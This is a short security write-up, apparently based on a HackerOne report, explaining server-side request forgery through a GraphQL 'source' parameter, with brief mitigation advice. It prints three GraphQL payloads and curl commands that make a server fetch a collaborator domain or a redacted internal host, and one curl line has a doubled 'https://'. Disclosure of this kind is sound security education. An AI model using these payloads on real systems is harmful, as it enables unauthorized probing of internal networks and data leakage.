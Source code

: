 ```yaml
---
description: 'Ref: https://hackerone.com/reports/1864188'
---
```


# 🤯 SSRF From Hackerone

**Understanding SSRF Vulnerabilities and Their Impact**

Server-Side Request Forgery (SSRF) is a critical security vulnerability that allows attackers to send unauthorized requests from the server to other internal or external resources. In this article, we will analyze some examples of SSRF queries and curl commands to better comprehend the severity of this issue.

#### SSRF Request with GraphQL Query Parameter

```json
query {
  allTicks(symbol:"TSLA", source:"https://[COLLABORATOR_DOMAIN]/") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xxx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://[COLLABORATOR_DOMAIN]/\"){ symbol server source ask time bid } }"}'
```

In this example, the GraphQL query contains a vulnerable parameter `source` that accepts a URL. An attacker can manipulate this URL to make the server send a request to their controlled domain, referred to as `[COLLABORATOR_DOMAIN]`, potentially leading to data leakage or unauthorized access.

#### SSRF Request with GET Parameters inside GraphQL JSON

```json
query {
  allTicks(symbol:"TSLA", source:"https://[COLLABORATOR_DOMAIN]/?do=something&") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://[COLLABORATOR_DOMAIN]//?do=something&\"){ symbol server source ask time bid } }"}'
```

Here, the GraphQL query includes GET parameters in the URL. An attacker can exploit this by modifying the parameters and potentially impacting the behavior of the server, leading to various security risks.

#### SSRF Request to Internal Host

```json
query {
  allTicks(symbol:"TSLA", source:"https://█████/?") {
    symbol
    server
    source
    ask
    time
    bid
  }
}
```

```bash
curl -v "https://xxxx.xxx.com/" -H "Content-Type: application/json" --data '{"query":"query { allTicks(symbol:\"TSLA\", source:\"https://https://████/?\"){ symbol server source ask time bid } }"}'
```

In this instance, the GraphQL query includes a modified URL with the placeholder `█████`, suggesting an attempt to perform an SSRF request to an internal host. If successful, this could expose sensitive information or services running on the internal network.

#### Conclusion

SSRF vulnerabilities are serious threats that require immediate attention from developers and security teams. To mitigate SSRF risks, it is essential to validate and sanitize user-provided URLs and limit access to sensitive internal resources.

Remember, proactive security measures and regular vulnerability assessments are crucial in maintaining a robust and secure web application. Stay vigilant, and always prioritize cybersecurity to protect both your users and your organization.

***
